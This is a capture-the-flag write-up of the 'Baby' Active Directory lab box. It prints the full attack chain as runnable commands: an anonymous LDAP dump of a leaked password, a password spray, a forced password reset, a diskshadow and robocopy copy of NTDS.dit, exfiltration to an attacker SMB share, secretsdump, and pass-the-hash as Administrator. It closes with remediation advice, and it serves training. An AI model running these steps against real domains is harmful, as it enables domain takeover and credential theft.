Baby
Baby is an easy Windows Active Directory box. Anonymous LDAP enumeration leaks an initial
password in a user's description field. That password won't log in directly because the
account is flagged "must change at next logon", so we change it ourselves and use the new credentials
to get a WinRM shell as a low-privileged user. That user sits in Backup Operators and
holds SeBackupPrivilege, which we abuse by creating a Volume Shadow Copy and copying
NTDS.dit (the AD database) plus the SYSTEM hive out in backup mode. Offline,
secretsdump extracts every domain hash, and a Pass-the-Hash with the Administrator NT hash
lands a full Administrator shell.
10.129.53.98; after a
reset the box came back on 10.129.234.71), but I tried to make everything feel connected
despite this.
01Enumeration
Starting with a full port and service scan to see what we are working with:
$ nmap -sCV -p- -T4 --min-rate 5000 10.129.53.98
baby.vl, host BABYDC.The ports tell the whole story: this is an Active Directory domain controller. The two that matter most
for a foothold are LDAP (enumerate the directory) and WinRM/5985 (remote
shell once we have creds). kpasswd on 464 is also worth noting; it lets us change a password
over the network, which turns out to be the key to the foothold.
The scan already handed us the domain name (baby.vl) and the DC hostname
(babydc.baby.vl). Confirm them with a DNS lookup against the box, since a DC usually doubles
as the domain's DNS server:
$ dig ns baby.vl @10.129.53.98
baby.vl is served by babydc.baby.vl.Add the domain and DC hostname to /etc/hosts so name-based tooling (Kerberos, LDAP) works:

/etc/hosts pointing baby.vl and babydc.baby.vl at the target.Anonymous LDAP enumeration
Many AD environments allow anonymous (unauthenticated) LDAP binds that leak the whole directory. Dump it and look for anything interesting:
$ ldapsearch -x -H ldap://10.129.53.98 -b "DC=baby,DC=vl" "(objectClass=user)"
description: Set initial password to BabyStart123!description field as a
note to themselves. The problem is that the description attribute is world-readable
to anyone who can bind to LDAP, including an anonymous bind. Any secret you can read anonymously is not
a secret. This is the "exposed credentials" class of finding.
Pull a clean list of every account name and save it for a password spray:
$ ldapsearch -x -H ldap://10.129.53.98 -b "DC=baby,DC=vl" "(objectClass=user)" sAMAccountName | grep -i "sAMAccountName:" | awk '{print $2}' > users.txt
02Foothold - exposed password + forced change
With the leaked password in hand, spray it across every account from the sAMAccountName
list we saved into users.txt. netexec (the successor to CrackMapExec) is perfect
for this:
$ nxc smb 10.129.53.98 -u users.txt -p 'BabyStart123!' --continue-on-success
users.txt comes back STATUS_LOGON_FAILURE - nothing in the spray succeeds.Here's the catch, and it's the whole key to the box: one user, Caroline Robinson,
appeared in the broad LDAP dump earlier (an object in the same it OU as Teresa Bell) but
never showed up in the sAMAccountName enumeration, so she was never added to
users.txt and the spray never even tried her. That gap is the missing link. Testing her
manually tells a completely different story:
$ nxc smb 10.129.53.98 -u 'Caroline.Robinson' -p 'BabyStart123!'
STATUS_PASSWORD_MUST_CHANGE - the password is correct, the account just can't log in until the password is changed.LOGON_FAILURE = wrong password. PASSWORD_MUST_CHANGE
= right password, but the account is flagged "user must change password at next logon", so
the login is refused until a new password is set. That flag is meant to force a human to pick a new
password on first login, but it doesn't stop us from setting it over the network first.
Change the password ourselves using smbpasswd in remote mode (supply the current
BabyStart123! as the old password, then a new one):
$ smbpasswd -r 10.129.53.98 -U Caroline.Robinson
BabyStart1234!. (The first attempt timed out when the box dropped - a retry worked.)Confirm the new credentials are valid (this is where the box had reset, so the IP is now
10.129.234.71):
$ nxc smb 10.129.234.71 -u 'Caroline.Robinson' -p 'BabyStart1234!'
[+] - the new credentials authenticate.WinRM (5985) was open, so grab a shell with evil-winrm:
$ evil-winrm -i 10.129.234.71 -u Caroline.Robinson -p 'BabyStart1234!'
Caroline.Robinson.PS> cat ..\Desktop\user.txt
user.txt [redacted].03Privilege escalation - SeBackupPrivilege → NTDS.dit
First thing on any Windows box: check privileges and group membership.
PS> whoami /priv
PS> whoami /groups
SeBackupPrivilege (and SeRestorePrivilege) are Enabled.
SeBackupPrivilege grants read access to any file on the system, regardless
of its ACL, so that backup software can copy protected files. The catch: it's read for any file,
including the ones that hold credentials. On a domain controller the prize is C:\Windows\NTDS\NTDS.dit,
the Active Directory database containing every domain account's password hash. Pair it
with the SYSTEM registry hive (which holds the boot key needed to decrypt it) and you can
recover the whole domain offline. This isn't an exploit, it's an over-privileged group assignment being
used exactly as designed.
Grab the SYSTEM hive first (that one isn't locked, so a plain reg save works):
PS> reg save HKLM\SYSTEM C:\Users\Caroline.Robinson\Desktop\system.hive
SYSTEM hive saved to disk.NTDS.dit is trickier. It's a live database held open by AD, so a direct copy fails:

The standard answer is a Volume Shadow Copy (VSS): a frozen point-in-time snapshot of
the volume where the database file isn't locked. Built-in diskshadow creates one from
a small script, and because we have SeBackupPrivilege, robocopy /b (backup mode)
reads the file straight out of the snapshot, bypassing the ACL:
# diskshadow script (ds.txt) - create a persistent snapshot of C: and mount it as Z:
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
add volume c: alias cdrive
create
expose %cdrive% z:
diskshadow /s ds.txt builds the snapshot and exposes it as Z:; robocopy /b then copies NTDS.dit out of it.PS> diskshadow /s C:\Windows\Temp\ds.txt
PS> robocopy /b Z:\Windows\NTDS C:\Users\Caroline.Robinson\Desktop ntds.ditExfiltrate both files back to Kali (here, copied to an SMB share hosted on the attacking box):
PS> copy C:\Users\Caroline.Robinson\Desktop\ntds.dit \\10.10.15.114\share\ntds.dit
PS> copy C:\Users\Caroline.Robinson\Desktop\system.hive \\10.10.15.114\share\system.hive
Now extract the hashes offline with Impacket's secretsdump, feeding it the NTDS database
and the SYSTEM hive for the boot key:
$ impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
Administrator:500:...:ee4457ae59f1e3fbd764e33d9cef123d:::NTDS.dit, we
can authenticate as Administrator by passing the hash directly, no cracking required. evil-winrm
takes a hash with -H instead of a password with -p.
$ evil-winrm -i 10.129.234.71 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d
PS> cat ..\Desktop\root.txt
root.txt [redacted]. Box owned.04Root cause & remediation
| Anonymous LDAP read | Disable anonymous/unauthenticated LDAP binds so the directory can't be dumped by anyone on the network. |
| Password in the description field | Never store passwords in AD attributes. Deliver initial passwords out-of-band, force a change on first logon, and audit descriptions for secrets. |
| Reused / weak initial password | The "must change" flag is not a control if the current password is known. Use unique, random initial passwords and short expiry windows. |
| SeBackupPrivilege on a standard user | Treat Backup Operators as equivalent to Domain Admin on a DC. Remove normal users from it, restrict backup rights to dedicated, monitored service accounts, and alert on shadow-copy creation and NTDS access. |
05Takeaways
Baby is a clean first look at an AD attack chain, and every link is a configuration mistake rather than a CVE. The lesson that sticks: read everything you're allowed to read. An anonymous LDAP bind handed over a password that an admin typed into a notes field, and the whole box unspooled from there.
The second lesson is reading responses carefully. A quick glance at the spray looked like total failure,
but STATUS_PASSWORD_MUST_CHANGE on one account was a flashing green light, not a wall. The
difference between that and LOGON_FAILURE was the entire foothold.
And the privesc is one worth filing away: on a domain controller, SeBackupPrivilege (or
membership in Backup Operators) equals Domain Admin, because it lets you read NTDS.dit and
recover every hash. The moment whoami /priv shows it, think "shadow copy the NTDS database".